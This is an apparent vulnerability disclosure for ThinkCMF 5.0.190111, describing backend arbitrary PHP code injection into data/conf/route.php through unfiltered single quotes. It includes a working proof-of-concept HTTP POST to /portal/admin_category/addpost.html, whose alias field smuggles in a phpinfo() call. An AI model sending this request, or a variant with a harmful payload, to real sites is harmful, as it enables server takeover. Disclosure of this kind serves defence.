


# ThinkCMF-5.0.190111 backend arbitrary code injection

## Description
ThinkCMF 5.0.190111 failed to filter single quote(i.e. ') in user input, resulting in arbitrary php code injected in `data/conf/route.php`. This vulnerability can be triggered by backend logged in user making a crafted HTTP request to **/portal/admin_category/addpost.html**


### The trigger point


## PoC
```http
POST /portal/admin_category/addpost.html HTTP/1.1
Host: 192.168.170.209
Content-Length: 183
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Cookie: PHPSESSID=of2ar92rpeucrh4cg6s4t4dae6; admin_username=admin
Connection: close

parent_id=0&name=111&alias=1'%3D%3Earray(%22%22%2C%22%22)%2Cphpinfo()%2C'2
```

## Demo


## Analysis
[某CMS最新版5.0.190111后台任意文件写入导致的代码执行](https://xz.aliyun.com/t/3997)
